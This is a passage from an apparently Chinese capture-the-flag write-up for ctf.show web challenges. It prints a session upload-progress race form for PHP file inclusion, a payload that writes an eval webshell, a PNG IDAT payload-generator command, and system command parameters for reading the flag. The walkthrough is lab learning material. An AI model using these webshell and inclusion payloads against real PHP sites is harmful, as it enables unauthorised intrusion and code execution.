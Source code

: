 ```
GIF89a
<?=include"/tmp/sess_fllag"?>
```

构造，session文件竞争包含poc:

```html
<!DOCTYPE html>
<html>
<body>
<form action="http://58b10a1f-08e0-4689-8b64-2e8641d2948b.chall.ctf.show/" method="POST" enctype="multipart/form-data">
<input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="2333" />
<input type="file" name="file" />
<input type="submit" value="submit" />
</form>
</body>
</html>
```

![image-20230726155914013](C:\Users\scofi\AppData\Roaming\Typora\typora-user-images\image-20230726155914013.png)

`Cookie:PHPSESSID=fllag`

`2333<?php $code='<?php eval($_POST[1]);?>;file_put_contents('a.php',$code);?>`



也可以远程包含自己vps上的马

### [web164]PNG二次渲染

**PNG二次渲染**

尝试上传图片，查看上传后的路径，存在文件包含

```
http://5b82c70e-ecd3-4ebb-9665-11ce8c1a5b74.challenge.ctf.show/download.php?image=32d3ca5e23f4ccf1e4c8660c40e75f33.png
```

这里用到一个工具：

```
https://github.com/huntergregal/PNG-IDAT-Payload-Generator
```

cmd命令：

```
python generate.py -m php -p ma.php -o a.png
```

得到a.png可以上传

上传后再执行命令：
get：`&0=system`
post：`1=tac flag.php`
